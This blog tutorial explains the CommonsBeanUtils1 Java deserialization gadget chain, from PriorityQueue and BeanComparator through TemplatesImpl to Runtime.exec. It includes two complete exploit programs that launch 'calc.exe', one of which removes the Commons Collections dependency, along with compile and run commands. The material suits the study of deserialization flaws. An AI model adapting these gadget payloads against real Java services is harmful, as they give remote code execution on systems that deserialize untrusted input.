






CommonsBeanUtils1
If you are reading this for the first time, I would recommend going through the CommonsCollections blogs first and then coming back to it. This series is built on top of the CommonsCollections series.
In this blog post we will discuss the CommonsBeanUtils1 gadget — how it works, why we need exactly 3 dependencies, and we will complete the blog by writing our custom code that will pop a calculator.
CommonsBeanUtils1 is very similar to CommonsCollections2.
As a refresher, CommonsCollections2 uses the following gadget chain.
PriorityQueue.readObject()
PriorityQueue.heapify()
PriorityQueue.shiftdownOperator()
Comparator.compare()
TransformingComparator.compare()
InvokerTransformer.transform()
TemplatesImpl.newTransform()
Loads our byteCode and executes it which indeed calls
Runtime.getRuntime().exec(cmd)
We were using TransformingComparator with InvokerTransformer() to call newTransformer() on the TemplatesImpl class in order to achieve code execution.
In the case of CommonsBeanUtils1, the only change we make is that instead of using TransformingComparator with InvokerTransformer(), we will simply use BeanComparator.
So at a high level, the gadget chain will look something like this.
PriorityQueue.readObject()
PriorityQueue.heapify()
PriorityQueue.shiftdownOperator()
BeanComparator.compare()
SOMETHING SOMETHING
TemplatesImpl.getOutputProperties()
TemplatesImpl.newTransformer()
Note: Check out CC2 to understand how the compare method of BeanComparator gets called by simply setting this up with the PriorityQueue.
Understanding BeanComparator.compare()
Let's understand what goes on inside BeanComparator.compare().
When we initialise the BeanComparator as:
BeanComparator bc=new BeanComparator("outputProperties");
It calls the below constructor:
public BeanComparator( String property ) {
this( property, ComparableComparator.getInstance() );
}
This further sets 2 things:
public BeanComparator( String property, Comparator<?> comparator ) {
setProperty( property );
if (comparator != null) {
this.comparator = comparator;
} else {
this.comparator = ComparableComparator.getInstance();
}
}
So this.property gets set to "outputProperties" and the comparator is set to ComparableComparator from the CommonsCollections library.
Once this is done, the execution will further move to:
public int compare( T o1, T o2 ) {
if ( property == null ) {
// compare the actual objects
return internalCompare( o1, o2 );
}
try {
Object value1 = PropertyUtils.getProperty( o1, property );
Object value2 = PropertyUtils.getProperty( o2, property );
return internalCompare( value1, value2 );
}
catch ( IllegalAccessException iae ) {
throw new RuntimeException( "IllegalAccessException: " + iae.toString() );
}
catch ( InvocationTargetException ite ) {
throw new RuntimeException( "InvocationTargetException: " + ite.toString() );
}
catch ( NoSuchMethodException nsme ) {
throw new RuntimeException( "NoSuchMethodException: " + nsme.toString() );
}
}
The property is already set, so internalCompare does not get executed in the if block.
Inside the try block we do:
PropertyUtils.getProperty( o1, property );
Here we control both o1 and property. The value of the property is "outputProperties" and o1 is an object of the TemplatesImpl class.
This function, defined as below, calls PropertyUtilsBean.getProperty() with TemplatesImpl as the bean name and "outputProperties" as the name:
public static Object getProperty(Object bean, String name)
throws IllegalAccessException, InvocationTargetException,
NoSuchMethodException {
return (PropertyUtilsBean.getInstance().getProperty(bean, name));
}
Which further calls getNestedProperty(). Since we do not have any nested property (which would look something like a.b.c instead of outputProperties), getSimpleProperty() gets called.
Which then calls at line 1254:
PropertyDescriptor descriptor =
getPropertyDescriptor(bean, name);
This further calls getIntrospectionData(), which is a JDK class used to find certain methods based on the name.

It finds getter/setter methods that are public and take no arguments.
If you look into TemplatesImpl.java, you will see there is a function called getOutputProperties which matches all the requirements.
So it returns getOutputProperties.
This is passed to invokeMethod(). Once it invokes getOutputProperties(), this is going to invoke newTransformer().


And from CommonsCollections2 we know that if we are able to invoke this method, we can achieve code execution via the same TemplatesImpl.java by loading our bytecode into _bytecodes, which will execute our bytecode.
Quick Question:
We do not actually send getOutputProperties() to invokeMethod() — we send something called readMethod.
The propertyDescriptor does not simply return the instance of that function or the function itself.
It returns a propertyDescriptor object.
Using this object, Bean.getClass() and reflection getReadMethod() returns the actual method that we need to invoke.

Exploit Code
So in the end we can use the below code to instantly pop a calculator.
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl; import java.lang.reflect.Field; import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet; import javassist.ClassClassPath; import javassist.ClassPool; import javassist.CtClass; import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter; import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl; import java.util.PriorityQueue; import javax.xml.transform.Templates; import org.apache.commons.beanutils.BeanComparator; public class hello { public static void main(String[] args) throws Exception { String command = "calc.exe"; ClassPool pool = ClassPool.getDefault(); /* * Explanation: Creating bytecode that extends AbstractTranslet */ final CtClass clazz = pool.get(hello.class.getName()); String cmd = "java.lang.Runtime.getRuntime().exec(\"" + command.replace("\\", "\\\\").replace("\"", "\\\"") + "\");"; clazz.makeClassInitializer().insertAfter(cmd); CtClass superC = pool.get(AbstractTranslet.class.getName()); clazz.setSuperclass(superC); final byte[] classBytes = clazz.toBytecode(); byte[] maliciousBytecode = classBytes; TemplatesImpl templates = new TemplatesImpl(); Field bytecodesField = TemplatesImpl.class.getDeclaredField("_bytecodes"); bytecodesField.setAccessible(true); bytecodesField.set(templates, new byte[][]{ maliciousBytecode }); Field nameField = TemplatesImpl.class.getDeclaredField("_name"); nameField.setAccessible(true); nameField.set(templates, "Exploit"); Field tfacname = TemplatesImpl.class.getDeclaredField("_tfactory"); tfacname.setAccessible(true); tfacname.set(templates, TransformerFactoryImpl.class.newInstance()); // So the exploit creation is extremely same as CC2. Simply instead of InvokerTransFormer and TrasformingComparator we will be using BeanComparator BeanComparator bc = new BeanComparator("outputProperties"); PriorityQueue<TemplatesImpl> priorityQueue = new PriorityQueue<TemplatesImpl>(2, bc); priorityQueue.add(templates); priorityQueue.add(templates); } }

Question 1: Where are Commons Logging and Commons Collections being used?
Commons Logging is not used in the exploit chain at all. The only reason it is listed as a dependency is that Commons BeanUtils will throw an error if it does not find commons-logging in the classpath, as it is a compile-time dependency of Commons BeanUtils.
Regarding Commons Collections usage: when we create an instance of BeanComparator with a string as an argument, there exists a constructor that uses the ComparableComparator from the CommonsCollections library.
However, this comparator is not used in the exploit chain at all, and thus we can bypass this by simply using another comparator that implements Serializable:
BeanComparator bc = new BeanComparator("outputProperties", Collections.reverseOrder());Collections.reverseOrder() implements Serializable and can be used, and this is how the updated code will look.
So by making this code change, can we simply remove the Commons Collections requirement from the classpath?
Yes
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl; import java.lang.reflect.Field; import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet; import javassist.ClassClassPath; import javassist.ClassPool; import javassist.CtClass; import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter; import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl; import java.util.Collections; import java.util.PriorityQueue; import javax.xml.transform.Templates; import org.apache.commons.beanutils.BeanComparator; public class hello { public static void main(String[] args) throws Exception { String command = "calc.exe"; ClassPool pool = ClassPool.getDefault(); /* * Explanation: Creating bytecode that extends AbstractTranslet */ final CtClass clazz = pool.get(hello.class.getName()); String cmd = "java.lang.Runtime.getRuntime().exec(\"" + command.replace("\\", "\\\\").replace("\"", "\\\"") + "\");"; clazz.makeClassInitializer().insertAfter(cmd); CtClass superC = pool.get(AbstractTranslet.class.getName()); clazz.setSuperclass(superC); final byte[] classBytes = clazz.toBytecode(); byte[] maliciousBytecode = classBytes; TemplatesImpl templates = new TemplatesImpl(); Field bytecodesField = TemplatesImpl.class.getDeclaredField("_bytecodes"); bytecodesField.setAccessible(true); bytecodesField.set(templates, new byte[][]{ maliciousBytecode }); Field nameField = TemplatesImpl.class.getDeclaredField("_name"); nameField.setAccessible(true); nameField.set(templates, "Exploit"); Field tfacname = TemplatesImpl.class.getDeclaredField("_tfactory"); tfacname.setAccessible(true); tfacname.set(templates, TransformerFactoryImpl.class.newInstance()); // So the exploit creation is extremely same as CC2. Simply instead of InvokerTransFormer and TrasformingComparator we will be using BeanComparator BeanComparator bc = new BeanComparator("outputProperties", Collections.reverseOrder()); PriorityQueue<TemplatesImpl> priorityQueue = new PriorityQueue<TemplatesImpl>(2, bc); priorityQueue.add(templates); priorityQueue.add(templates); } }
The above code can be compiled using:
javac -cp ".;commons-beanutils-1.9.2.jar;commons-logging-1.2.jar;javassist-3.12.1.GA.jar;xalan-2.7.3.jar" hello.javaand executed using:
java -cp ".;commons-beanutils-1.9.2.jar;commons-logging-1.2.jar;javassist-3.12.1.GA.jar;xalan-2.7.3.jar" hello
As you can see, we do not have Commons Collections in our classpath but we are still able to pop the calculator.
That's it for today.
Thanks for reading.
Happy Hacking.
You can connect with me at: